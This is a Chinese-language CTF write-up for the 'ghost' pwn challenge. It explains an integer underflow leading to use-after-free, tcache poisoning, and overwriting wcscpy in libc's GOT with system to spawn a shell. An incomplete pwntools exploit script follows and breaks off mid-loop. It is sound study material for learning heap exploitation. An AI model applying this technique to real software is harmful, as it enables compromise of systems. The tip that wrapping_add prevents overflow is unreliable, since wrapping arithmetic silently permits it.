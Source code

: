 ## ghost
感觉这个题难一点     
首先漏洞点，之前一直是有越界写的预设，但是没想到最后的问题是 UAF    
主要也是 rust 和 C++ 的 vector 操作都会在删除元素的时候析构掉它，而我们通过它 modify_pinned 的整数下溢，可以使得我们 pinned 的 tweet 的 index 大于 max_index    
注意 rust 的加减法溢出只有在 debug 模式会报错，**所以如果是常规开发想要防止溢出的话 建议用 wrapping_add 和 wrapping_sub**    
然后它 pop 是只能 pop 比 max_index 下标大的元素，所以我们还是可以删除 pinned 的元素，然后 pinned 的 tweet 是可以被输出或者修改的 从而造成 UAF     
然后就是常规操作打 tcache poisoning，但是在 exit 操作的时候会有问题是因为他首先会做 vector 的析构操作，然后在这一步会尝试 free 一个 libc pointer，所以可能会挂掉（除非我们这步可以搞出来一个 house of spirit....）    
然后可以想到的操作是看栈上有没有可以当成 size 的字段，然后改打覆盖返回地址为 ROP chain    
但是看 [writeup](https://ctftime.org/writeup/38179) 用了一个黑魔法    
这个不是打的我们 IO_FILE 的操作，而是写的 libc got 表。然后在 打印 free invalid pointer 的时候会调用到 got 表的 `wcscpy` 函数，且传参是 got 表的起始地址（对而且这次 libc got 表可写）    
所以我们可以覆盖 wcscpy@libc_got 为 system 函数然后覆盖 libc_got 的起始位置为 "/bin/sh\x00" 然后就可以 getshell 了    
但是这个有点难逆出来或者单独调出来，可能需要 mark 一下，当一个板子    
### exp_incomplete
```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
libc = ELF("./libc.so.6")
p=process("./ghost")
def post(content):
    p.sendlineafter(">", "1")
    p.sendafter("tweet > ", content)

def pin(idx):
    p.sendlineafter(">", "3")
    p.sendlineafter("id > ", str(idx))

def modify_pinned(content):
    p.sendlineafter(">", "5")
    p.sendafter("tweet > ", content)

def print_pinned():
    p.sendlineafter("> ", "4")

def undo():
    p.sendlineafter("> ", "2")

def change_pinned_idx(is_newer,offset):
    p.sendlineafter("> ", "6")
    p.sendlineafter("older[0] / newer[1] > ", str(is_newer))
    p.sendlineafter("size > ", str(offset))

post('a'*0x100) # 1
post('b'*0x100) # 2
post('c'*0x100) # 3
post('d'*0x100) # 4
post('e'*0x100) # 5
post('f'*0x100) # 6
post('g'*0x100) # 7
post('h'*0x100) # 8
post('i'*0x100) # 9
post('j'*0x100) # 10
for i in range(8):
    post("i"*0x110)

post('k'*0x10) # 11
pin(2) # max index = 2
change_pinned_idx(0,2**64-1)

for i in range(17):
```